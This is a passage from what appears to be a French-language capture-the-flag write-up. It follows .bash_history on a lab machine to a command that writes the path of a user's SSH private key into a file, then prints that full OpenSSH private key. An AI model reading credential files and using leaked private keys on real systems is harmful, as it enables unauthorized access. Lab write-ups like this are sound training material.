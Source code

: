 Il y a des choses intéressantes dans le fichier d'historique ".bash_history".

```bash
$ cat .bash_history
cd /opt
ls -la
cd pendekar/
# [plein de lignes]
echo '/home/pendekar/.ssh/id_rsa' > official_letter.txt
cat official_letter.txt
```

On essaie de reproduire cette commmande.

```bash
$ cd /opt/pendekar/
$ echo '/home/pendekar/.ssh/id_rsa' > official_letter.txt
< '/home/pendekar/.ssh/id_rsa' > official_letter.txt
$ cat official_letter.txt
/home/pendekar/.ssh/id_rsa
```

Et si on retourne dans le seul fichier que l'on a pu ouvrir.

```bash
$ cat /home/pendekar/send_letter.txt
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
